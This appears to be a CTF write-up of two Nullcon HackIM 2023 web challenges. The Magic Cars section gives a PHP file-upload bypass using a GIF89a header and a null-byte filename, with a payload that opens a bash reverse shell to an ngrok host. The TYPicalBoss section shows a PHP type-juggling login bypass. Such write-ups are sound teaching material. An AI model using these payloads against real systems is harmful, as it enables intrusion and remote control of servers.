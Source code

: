 ```yaml
---
title: Nullcon Goa HackIM CTF 2023
---
```


# Nullcon Goa HackIM CTF 2023

# Web/Magic Cars

## Challenge Overview

Description: Who doesn't love Magical Cars? go checkout this cool website and even upload your fav gif to support it. Author: @moaath

![Index](./images/nullcon/magic/index.png)

We have been given a website [http://52.59.124.14:10021/](http://52.59.124.14:10021/). We can see three options there. But only gallery seems to be interesting.

So first let's see the source code given.

```php
<?php
error_reporting(0);

$files = $_FILES["fileToUpload"];
$uploadOk = true;

if ($files["name"] != "") {
    $target_dir = urldecode("images/" . $files["name"]);

    if (strpos($target_dir, "..") !== false) {
        $uploadOk = false;
    }

    if (filesize($files["tmp_name"]) > 1 * 1000) {
        $uploadOk = false;
        echo "Too big!!!";
    }

    $extension = strtolower(pathinfo($target_dir, PATHINFO_EXTENSION));
    $finfo = finfo_open(FILEINFO_MIME_TYPE);
    $type = finfo_file($finfo, $files["tmp_name"]);
    finfo_close($finfo);

    if ($extension != "gif" || strpos($type, "image/gif") === false) {
        echo " Sorry, only gif files are accepted";
        $uploadOk = false;
    }

    $target_dir = strtok($target_dir, chr(0));

    if ($uploadOk && move_uploaded_file($files["tmp_name"], $target_dir)) {
        echo "<a href='$target_dir'>Uploaded gif here. Go see it!</a>";
    }
}
?>
```


## Vulnerability Identification

As we can see the code is checking MIME type when we upload a gif. This leads to file upload vulnerability.

So adding gif header in the file the server can be easily exploited

[Reference](https://book.hacktricks.xyz/pentesting-web/file-upload)


## Exploiting the Vulnerability

So to exploit this we will set the header of the file to **GIF89a**. And then we will inject some php code to exploit the server.

We will name this file as `exploit.php%00.gif`. The nullbyte will bypass the checks performed and the name of the file which will be uploaded on the server will be exploit.php as it will ignore the part after the nullbyte.

So to exploit this server we will try to get a shell using **ngrok**

`exploit.php%00.gif` looks like:

```php
GIF89a
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/0.tcp.in.ngrok.io/16344 0>&1'");?>
```

## Obtaining the Flag

To retrieve the flag, we will use ngrok to get reverse shell.

After uploading the file when we open it we get the shell.

The flag is located in `/var/www/html` and is named **flag.flag**.

![Flag](./images/nullcon/magic/flag.png) 

Flag: **ENO{4n_uplo4ded_f1l3_c4n_m4k3_wond3r5}**

# Web/TYPicalBoss

## Challenge Overview

Description: My boss just implemented his first PHP website. He mentioned that he managed to calculate a hash that is equal to 0??? I suppose he is not very experienced in PHP yet.
Author: @moaath

![Index](./images/nullcon/typicalboss/index.png)

We have been given a website [http://52.59.124.14:10022/index.php](http://52.59.124.14:10022/index.php). The website includes a basic login page at the route `login.php`, which takes username and password as input.

When we access the main directory '/' of the website, we can see some files:

![Main Directory](./images/nullcon/typicalboss/main.png)

The file that catches our interest is `database.db`. If we open it with a database browser, we can see a list of usernames and their corresponding hashed passwords:

![Database](./images/nullcon/typicalboss/database.png)

## Vulnerability Identification

As we observe the hashed passwords, we notice that password of admin starts with '0e'. This is a common vulnerability in PHP, where the hashed password is interpreted as 0 instead of the actual hash value '0e12345678912345678920202020202020202020'.

## Exploiting the Vulnerability

To exploit this vulnerability, we need to find a value whose SHA-1 hash starts with '0e'. One common technique for this is known as Type Juggling. More details about this technique can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md).

For instance, the SHA-1 hash of '10932435112' starts with '0e', so in PHP, it will be interpreted as 0.

## Obtaining the Flag

To retrieve the flag, we need to log in with the username 'admin' and the password '10932435112':

Username: admin
Password: 10932435112

Flag: **ENO{m4ny_th1ng5_c4n_g0_wr0ng_1f_y0u_d0nt_ch3ck_typ35}**

![Flag](./images/nullcon/typicalboss/flag.png)

Thank You
